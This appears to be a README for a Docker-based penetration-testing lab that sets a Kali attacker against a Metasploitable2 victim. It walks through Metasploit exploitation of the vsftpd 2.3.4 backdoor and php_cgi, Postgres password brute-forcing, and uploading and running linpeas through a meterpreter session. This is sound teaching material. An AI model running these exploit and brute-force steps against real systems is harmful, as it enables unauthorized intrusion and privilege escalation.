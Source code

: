
## Setup 

```bash
make up
make ps
```

```bash
make logs container=meta2
make logs container=kali 
```

```bash
make access container=meta2
make access container=kali
```

In each container, run:

```bash
ifconfig # you should see 172.20.0.3 for the attacker and 172.20.0.2 for the victim 
```

From kali, run:

```bash
nmap -F 172.20.0.2
```

## Penetration

### Privilege Escalation

From kali:

```bash
nmap -sV -p 21 172.20.0.2
```

```bash
msfconsole
search vsftpd
#   1  exploit/unix/ftp/vsftpd_234_backdoor
use 1
set rhosts 172.20.0.2
set rport 21
exploit
```

Now to check previliges, directly type:

```bash
touch you_are_pwned
```

```bash
whoami #root
```

### Password brute force
From kali:
```bash
msfconsole
search postgres
#   9   auxiliary/scanner/postgres/postgres_login
use 9
set rhosts 172.20.0.2
set STOP_ON_SUCCESS true
run
```

## Stop the containers

```bash
make down
```


## Demo
From kali:

We will run the script by exploiting a php vulnerability but from a non-privileged user
```bash
msfconsole
search php_cgi
use 0
set rhosts 172.20.0.2
exploit 

# we get a meterpreter session
upload linpeas_linux_amd64 . # from here, we upload the linpeas script to the victim
shell # we open a shell in victim
ls # check file was uploaded successfully
chmod 777 linpeas_linux_amd64
./linpeas_linux_amd64 -a > out.txt
exit
```
From meterpreter:
```bash
download out.txt
bg # Go back to msfconsole
```

From kali terminal:
```bash
less -r out.txt # Open linpeas file
```

Go back to the session:
```bash
sessions -i* # list sessions
sessions -i 1 # go back to the first session
```
